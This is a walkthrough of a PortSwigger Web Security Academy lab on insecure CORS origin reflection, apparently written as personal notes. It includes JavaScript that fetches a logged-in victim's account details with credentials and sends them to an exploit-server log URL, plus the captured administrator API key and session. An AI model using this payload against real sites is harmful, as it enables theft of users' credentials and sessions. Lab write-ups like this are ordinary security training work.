


# CORS vulnerability with basic origin reflection

## This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all origins.

## To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

login in using userid and password and check history in burpsuite
you will notice accountdetails response showing



### step2

Access-Control-Allow-Credentials : true

send to repeater and add origin: https://example.com for testing



### step3

### HINT:

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open("get", "YOUR-LAB-ID.web-security-academy.net/accountDetails", true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location = "/log?key=" + this.responseText;
  }
</script>
```

change with the lab details

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open(
    "get",
    "https://0aa200c203d73c52802a2139008c0038.web-security-academy.net/accountDetails",
    true
  );
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location =
      "https://exploit-0a5c001703f73caf800d20a1017a00b7.exploit-server.net/log?key=" +
      this.responseText;
  }
</script>
```

deliver to the victim
in ./log url

```javascript
%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22rApqlIsfnJkx2lfbEgkLxPywjDbuKxW3%22,%20%20%22sessions%22:%20[%20%20%20%20%22uKHzK96F8cHvJMn5pKYbqCcQWbabkilK%22%20%20]
```

decode using burpsuite

```javascript
  "username": "administrator",  "email": "",  "apikey": "rApqlIsfnJkx2lfbEgkLxPywjDbuKxW3",  "sessions": [    "uKHzK96F8cHvJMn5pKYbqCcQWbabkilK"  ]
```

submit apikey
